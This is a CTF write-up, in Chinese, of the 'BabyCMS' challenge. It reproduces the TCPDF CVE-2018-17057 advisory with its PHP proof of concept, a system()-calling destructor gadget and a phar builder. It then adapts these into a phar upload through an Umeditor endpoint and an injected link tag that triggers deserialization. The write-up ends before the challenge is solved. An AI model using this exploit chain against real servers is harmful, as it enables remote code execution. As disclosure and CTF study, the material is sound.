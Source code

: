 # BabyCMS

提示说了 TCPDF，这个库用的是 6.2.8 版本。

TCPDF 6.2.22之前版本中存在安全漏洞。攻击者可利用该漏洞反序列化任意数据[（link）](http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-201809-735)。

太好了（不是

```php
CVE-2018-17057: phar deserialization in TCPDF might lead to RCE
---------------------------------------------------------------

Affected products
=================

TCPDF <= 6.2.19

Background
==========

"Started in 2002, TCPDF is now one of the world's most active Open Source
projects, used daily by millions of users and included in thousands of CMS
and Web applications." - https://tcpdf.org/

"PHP library for generating PDF documents on-the-fly." -
https://github.com/tecnickcom/TCPDF

Description
===========

TCPDF allows the developers to insert HTML code inside the PDF, which will
be translated to a similar-looking design during PDF creation. For example
it is possible to insert basic HTML tags, such as "img" or "b" and have the
image and bold text placed in the output PDF.
The library allows also to include custom CSS rules by defining a "link"
tag, like the following:
<link type="text/css" href="style.css">

While it is a nice feature to have for the developer, it may cause problems
in case the PDF creation script is vulnerable to Cross-Site Scripting (or
"Code Injection") issues through which an attacker can inject arbitrary
HTML code. For example during an invoice creation, an attacker can use its
information written on the invoice to insert a malicious "link" tag
pointing to a local phar archive and trigger a PHP Object Injection through
the phar:// scheme once the web application reads that file.

Exploit
=======

In order to test this vulnerability it's enough to clone the project from
github and checkout a vulnerable version, such as 6.2.19:
git clone https://github.com/tecnickcom/TCPDF.git && cd TCPDF && git
checkout tags/6.2.19

After that it is possible to craft a phar archive containing a malicious
PHP Object and potentially trigger a RCE, here is a vulnerable code which
helps to reproduce the issue:
<?php
/*
*    title:     PHP object injection via phar:// deserialization
*    author:    polict
*    target:    TCPDF (https://github.com/tecnickcom/TCPDF) <= 6.2.19
*    setup:     git clone https://github.com/tecnickcom/TCPDF.git && cd
TCPDF && git checkout tags/6.2.19
*/

/* include vulnerable class (any PHP Object Injection gadget can be used,
see https://github.com/ambionics/phpggc) */
class Vulnerable {
    function __destruct() { system($this->hook); }
}

/* include the main TCPDF library */
require_once('tcpdf.php');
/* create new PDF document */
$pdf = new TCPDF(PDF_PAGE_ORIENTATION, PDF_UNIT, PDF_PAGE_FORMAT, true,
'UTF-8', false);
/* set document information */
$pdf->SetAuthor('polict');
$pdf->SetTitle('Proof of concept');
/* start pdf */
$pdf->AddPage();
/* create some HTML content */
$html = '<link type="text/css" href="phar://./poc.phar">';
/* insert the HTML content -- exploit will trigger here */
$pdf->writeHTML($html, true, false, true, false, '');
/* close and output PDF document */
$pdf->Output('poc.pdf', 'I');

In order to create the evil archive it's possible to use PHP:
<?php
$phar = new Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

$malicious_object = new Vulnerable();
$malicious_object->hook = "whoami";
$phar->setMetadata($malicious_object); // <-- inject the trigger

$phar->stopBuffering();

The archive will be in 'poc.phar'.

Note: This vulnerability depends on the developer using writeHTML() with
user-supplied input.

Author
======

This issue was discovered by polict (https://polict.net).

Timeline
========

17 august 2018:
—> report to developer

14 september 2018:
—> ping
<— released 6.2.20 (which re-introduced the vulnerability reported by Sam
Thomas, see
https://github.com/s-n-t/presentations/blob/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf
)
—> ping about re-introduction of old vulnerability
<— released 6.2.22 with fix for both
MITRE assigned CVE-2018-17057

17 march 2019:
public release
```

这个垃圾网站可以通过 `http://111.186.57.85:30042/index.php/Home/Index/xls` 和 `http://111.186.57.85:30042/index.php/Home/Index/csv` Dump 数据。但是，这两个接口的路径都是写死的——没办法直接把 flag 打印出来。

> 可惜

根据 Hint 1: tcpdf，他有一个 `/pdf` 接口，直接通过 HTML 生成 PDF。

这个 tcpdf 有个反序列化漏洞，可以任意执行 phar。

那么，我们就开始生成：

```php
<?php
$phar = new Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

$malicious_object = new Vulnerable();
$malicious_object->hook = "echo flag";
$phar->setMetadata($malicious_object); // <-- inject the trigger

$phar->stopBuffering();
>
```

构造好了这个 phar，但是要把它放到服务器上才能用。遗憾的是，服务器关于上传部分的代码被注释掉了。

好奇怪…按理说这里应该就这种攻击方式了。但是找不到办法去传入 phar。

捏着鼻子把 baijunyao 的代码跟文档读了一遍。然後跟「魔改版」diff 了一下。

几乎一行新代码没加，倒是把原来的代码 Comment 了一大堆。

> 你这不叫「魔改」，叫「阉割」

不过，这道题里割掉了这一个 `_empty` 方法，导致简单的任意模版调用不可行了。

```php
    /**
     * 拦截空方法 自动加载html
     * @param  string $methed_name 空方法
     */
    // Sorry for this...
    // public function _empty($methed_name){
    //     $this->display($methed_name);
    //     exit(0);
    // }
```

新加的代码，只有一行：

![image-20201011163237637](notes.assets/image-20201011163237637.png)

```
    public function __toString()
    {
        file_put_contents("step4", "data");
        return $this->serializeToXml();
    }
```

翻了一下原仓库，是没有这个更动的。

> 五年来没动过；
>
> > 尽管这行代码怎么看都不像正常功能代码；
> >
> > 但这个作者的狂乱代码风格让我不禁有些怀疑；
> >
> > > 已经被他所有标点符号都用分号（竟然还是中文分号！）代替的文风洗脑了；

换言之，如果我们调用一次这个类型的 `__toString` 魔法方法，就会在当前目录下创建一个 `step4` 文件，并向其中写入 `data`。

那么该怎么调用呢？Static 中有个 Umeditor Example。

> 这种东西居然能打包进生产环境？

把 phar 放进来：

```
http://111.186.57.85:30042/Public/statics/umeditor1_2_3/php/upload/20201012/16024844906165.gif
```

得到 URL：

`phar://../../Public/statics/umeditor1_2_3/php/upload/20201012/16024844906165.gif`

构造 HTML：

```html
<link type="text/css" href="phar://../../Public/statics/umeditor1_2_3/php/upload/20201012/16024844906165.gif">
```

就可以通报执行了。

唯一的问题就是：怎么找到那个 `__destruct` 中 `echo` 的 Vulnerable 函数。

